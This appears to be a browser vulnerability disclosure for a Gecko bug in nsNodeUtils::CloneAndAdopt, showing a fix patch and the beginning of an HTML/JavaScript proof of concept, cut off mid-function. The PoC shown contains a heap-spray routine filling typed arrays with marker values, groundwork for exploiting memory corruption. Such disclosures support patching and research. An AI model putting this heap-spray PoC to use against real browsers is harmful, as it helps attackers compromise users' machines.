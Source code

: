 ## Patch
```patch
diff --git a/dom/base/nsNodeUtils.cpp b/dom/base/nsNodeUtils.cpp
--- a/dom/base/nsNodeUtils.cpp
+++ b/dom/base/nsNodeUtils.cpp
@@ -576,18 +576,23 @@ nsNodeUtils::CloneAndAdopt(nsINode *aNod
     if (aReparentScope) {
       AutoJSContext cx;
       JS::Rooted<JSObject*> wrapper(cx);
       if ((wrapper = aNode->GetWrapper())) {
         MOZ_ASSERT(IsDOMObject(wrapper));
         JSAutoCompartment ac(cx, wrapper);
         rv = ReparentWrapper(cx, wrapper);
         if (NS_FAILED(rv)) {
+          if (wasRegistered) {
+            aNode->OwnerDoc()->UnregisterActivityObserver(aNode->AsElement());
+          }
           aNode->mNodeInfo.swap(newNodeInfo);
-
+          if (wasRegistered) {
+            aNode->OwnerDoc()->RegisterActivityObserver(aNode->AsElement());
+          }
           return rv;
         }
       }
     }
   }
```

## PoC
```html
<!DOCTYPE html>
<html>
  <head>
  <!-- <meta http-equiv="refresh" content="1"/> -->
  <meta http-equiv="content-type" content="text/html; charset=UTF-8">
  <meta http-equiv="Expires" content="0" />
  <meta http-equiv="Cache-Control" content="no-store, no-cache, must-revalidate" />
  <meta http-equiv="Cache-Control" content="post-check=0, pre-check=0" />
  <meta http-equiv="Pragma" content="no-cache" />
  <style type="text/css">
   body{
        background-color:lime;
        font-color:red;
   };
  </style>
  <script type='text/javascript'></script> 
  <script type="text/javascript" language="JavaScript">
   
   var doc = null;
   var cnt = 0;

   function m(blocks,size) {
            var arr = [];
            for(var i=0;i<blocks;i++) {
                arr[i] = new Uint32Array(size);
                for(var j=0;j<size;j+=2) {
                    arr[i][j] = 0x41414141;
                    arr[i][j+1] = 0x42424242;
                }
            }
            return arr;
```